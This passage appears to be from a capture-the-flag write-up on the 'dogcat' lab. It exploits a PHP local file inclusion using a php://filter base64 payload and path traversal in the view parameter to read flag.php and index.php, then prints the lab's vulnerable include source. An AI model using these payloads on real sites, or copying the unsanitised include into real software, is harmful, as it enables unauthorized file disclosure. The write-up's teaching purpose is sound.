These warnings reveal that `include_path` is used, which probably checks for the strings `dog` or `cat`.

## Exploitation

So, it is possible for an `LFI` to be there, so we will try some payloads from: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" target="_blank">File Inclusion - PayloadsAllTheThings</a>.

The successful payload is: `php://filter/convert.base64-encode/resource=`, so the URL becomes: `http://10.10.202.202/?view=php://filter/convert.base64-encode/resource=dog` resulting to: `Here you go!PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K `


### Flag 1

We have also found `flag.php` from `gobuster` so we can read the 1st flag by navigating to: `http://10.10.202.202/?view=php://filter/convert.base64-encode/resource=dog/../flag`. The output is: `Here you go![REDACTED]`, which we can decode from `base64`.

We can navigate to: `http://10.10.202.202/?view=php://filter/convert.base64-encode/resource=dog/../index` in order to view the source code of `index.php` (if we first decode it from base64):


```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```
